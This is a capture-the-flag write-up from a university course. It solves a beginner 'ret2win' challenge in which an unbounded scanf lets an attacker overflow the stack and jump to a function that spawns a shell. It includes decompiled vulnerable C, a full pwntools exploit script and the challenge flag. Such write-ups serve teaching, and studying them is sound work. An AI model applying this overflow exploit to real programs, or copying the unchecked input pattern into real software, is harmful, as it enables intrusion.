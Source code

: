```yaml
---
title: "AAAA - Writeup | URJC CTF Course"
layout: post
author: Jorge Moreno
---
```

This challenge is part of an introductory CTF course organized by students of Universidad Rey Juan Carlos.

## Challenge Description
---

> ¡Ups! Parece que me he olvidado una opción que no debería aparecer en el programa que he creado como cliente de correo. Menos mal que es super seguro, ¿a que sí? 
  
Challenge Author(s): [David Billhardt](https://twitter.com/t0ct0u)  
Official Writeup: [AAAA.pdf](images/beginner-bof-wu/AAAA.pdf)   
Category: **Binary Explotation**  
Difficulty: **Very Easy**  
Challenge Files: [AAAA.zip](images/befinner-bof-wu/AAAA.zip)  

## TL;DR

---

This challenge is an standard ret2win. We overflow the buffer into overriding the RIP and jumping to the win function to spawn a shell.

## Challenge Solution

---

First thing we are going to do is analyze the file with the ``file`` and ``checksec`` commands:

![Untitled](images/beginner-bof-wu/Untitled.png)

![Untitled](images/beginner-bof-wu/Untitled%201.png)

As we can see the only relevant restriction this binary has is the No eXecute bit. Which disallows us to execute any shellcode inside the stack.

After analyzing the different functions the program we see that it is a binary that shows us a menu to log in, print the name of the user, and send a message. After the decompilation we can see 2 important things:

- A function ``rce()`` that spawns a shell

```c
void rce(void){
		system("bin/sh");
		return;
}
```

- And the function ``enviar()`` that sends a message to an specific user

```c
void enviar(void)

{
  undefined message [208];
  undefined name [32];
  
  printf(&DAT_004020e0); // Prompts for the name
  __isoc99_scanf(&%20s,name);
  puts(&DAT_00402108); // Prompts for the message
  __isoc99_scanf("%s",message);
  printf("Mensaje enviado a %s",name);
  return;
}
```

The first ``scanf()`` only receives up to 20 characters, but the second one has no limit so it is vulnerable to **Buffer Overflow**. We are going to test this by sending to the program a bunch of A’s.

![Untitled](images/beginner-bof-wu/Untitled%202.png)

The program crashes because we overflow the buffer up to the RSP so after the ``ret;`` instruction it tries to jump into the address ``0x6161616161616161 (AAAAAAAA)``.

We are going to use pwndbg’s ``cyclic`` command to get the offset and override the first rsp bytes with the address of the ``rce()`` function.

![Untitled](images/beginner-bof-wu/Untitled%203.png)

![Untitled](images/beginner-bof-wu/Untitled%204.png)

Then we need to get the address of the ``rce()`` function. We can do this with pwntools.

![Untitled](images/beginner-bof-wu/Untitled%205.png)

Full script:

```python
#!/usr/bin/python3

from pwn import *

exe = context.binary = ELF(args.EXE or './AAAA', checksec = False)

def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.GDB:
        return gdb.debug([exe.path] + argv, gdbscript=gdbscript, *a, **kw)
    else:
        return process([exe.path] + argv, *a, **kw)

gdbscript = '''
continue
'''.format(**locals())

offset = 248
rce_addr = exe.symbols.rce
ret = 0x000000000040101a # For stack aligning purposes

io = start()

payload = b"A" * offset
payload += flat(ret)
payload += flat(rce_addr)

io.sendlineafter(b'>', b'3') # Option
io.sendlineafter(b'>', b'a') # Name
io.recvline() # We do this because the prompt has a special character that pwntools doesn't work well with.
io.sendline(payload) # Payload

io.interactive()
```



**FLAG -- HackOn{c0MM0n_ret2wIN_1s_ez}**